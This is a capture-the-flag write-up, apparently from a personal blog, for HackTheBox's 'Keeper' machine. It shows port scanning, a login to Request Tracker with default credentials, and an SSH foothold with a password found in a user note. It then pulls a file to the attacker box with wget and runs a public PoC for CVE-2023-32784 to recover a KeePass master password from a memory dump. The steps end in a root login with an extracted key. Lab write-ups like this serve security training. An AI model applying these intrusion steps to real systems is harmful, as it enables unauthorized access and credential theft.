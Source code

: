 ```yaml
---
title: Writeup for the machine Keeper from Hackthebox 
layout: post
post-image: "https://github.com/0xRar/0xrar.github.io/assets/33517160/8cae3e0d-8b98-4199-9a19-eaac13f71caa"
tags:
- Writeups
- HackTheBox
- Boot2Root
- Web
---
```


## Machine Information
- Name: Keeper
- Difficulty: Easy
- URL: [https://app.hackthebox.com/machines/Keeper] 

---

## Initial Enumeration
Starting with nmap:
```
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ nmap -p- -sV keeper.htb

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 12:32 EST
Warning: 10.10.11.227 giving up on port because retransmission cap hit (10).
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.13s latency).
Not shown: 65333 closed tcp ports (conn-refused), 200 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.37 seconds
```

### HTTP (80)
Port 80 is hosting a static website that has a link to redirect to (`http://tickets.keeper.htb/rt/`),
which has `Request Tracker` its an enterprise-grade issue tracking system.

![port80](https://github.com/0xRar/0xrar.github.io/assets/33517160/a0ea394c-9013-4c8c-bd3a-848e3ffbefc3)

![rt](https://github.com/0xRar/0xrar.github.io/assets/33517160/49c954a0-6dd9-4e51-9da6-c5b3309d1115)

Looking for vulnerabilities for `Request Tracker version 4.4.4` turned out to be unfruitful,
so since we have a login looking for default creds is always a good idea, which i found on
the github repo: <a href="https://github.com/bestpractical/rt">(bestpractical/rt)</a>.

```
NOTE: The default credentials for RT are:
    User: root
    Pass: password
Not changing the root password from the default is a SECURITY risk!
```

Now that i had access to RT, I started looking for useful information and i found the users list,

![users list](https://github.com/0xRar/0xrar.github.io/assets/33517160/0d3d7827-4f9b-4f80-b11c-365db9422fd7)

the user `lnorgaard` had a note that is a password! 

![lnorgaard_pass](https://github.com/0xRar/0xrar.github.io/assets/33517160/908d9061-b230-4894-b236-59d242962ed6)

---

## Initial Foothold
Now there is a username and a password which i used to get a shell on the machine via ssh,
`lnorgaard:Welcome2023!`.

Listing the home directory content of `lnorgaard` shows a zip file `RT30000.zip`

```
lnorgaard@keeper:~$ ls 
RT30000.zip user.txt
```

I used a basic python web server to transfer it to my machine:
```
Target machine:
lnorgaard@keeper:~$ python3 -m http.server

Attacker machine:
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ wget http://keeper.htb:8000/RT30000.zip
```

---

## Privilege Escalation
Inside of the zip archive we have 2 files `KeePassDumpFull.dmp & passcodes.kdbx`,
kdbx is a file format for KeePassXC which is an offline password manager, at first
i thought i can just crack the hash of the database but that failed.

So second option for me was to check kdbx v2.x (`file passcodes.kdbx`)
and look for any related CVEs and i found `CVE-2023-32784`, this vulnerability can be
less interesting when you see that you need a keepass process dump which won't be 
a big deal for this machine because we have a dump of the process.

PoC I Used: [https://github.com/CMEPW/keepass-dump-masterkey]

The poc script will try and guess the letters of the master password:
```
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ python poc.py -d KeePassDumpFull.dmp
[.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

So the last possible password is the right one but its missing some letters,
so i google'd it and it turned out to be the name of a danish red berry pudding,
`rødgrød med fløde`.

![masterpass](https://github.com/0xRar/0xrar.github.io/assets/33517160/f8ab9eed-3501-46f5-954f-04e7a61fab80)

now that we have the password database we can see the root user notes which
has the contents of a .PPK or PuTTY Private Key using the PuTTYgen software,
the same way the ppk was created you can also turn it into an openssh pem file

![ppk](https://github.com/0xRar/0xrar.github.io/assets/33517160/cab7422f-ac0d-4dae-b4d8-43d554b1b2ea)

to turn the ppk to a private openssh i used this command:
```
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ puttygen key.ppk -O private-openssh -o root.pem
```

Logging in using the key: 
```
┌──(kali㉿kali)-[~/HTB/Keeper]
└─$ ssh -i root.pem root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

root@keeper:~# whoami
root
```

and thats it ! 

Thank You For Reading ❤

[https://app.hackthebox.com/machines/Keeper]: https://app.hackthebox.com/machines/Keeper
[https://github.com/CMEPW/keepass-dump-masterkey]: https://github.com/CMEPW/keepass-dump-masterkey
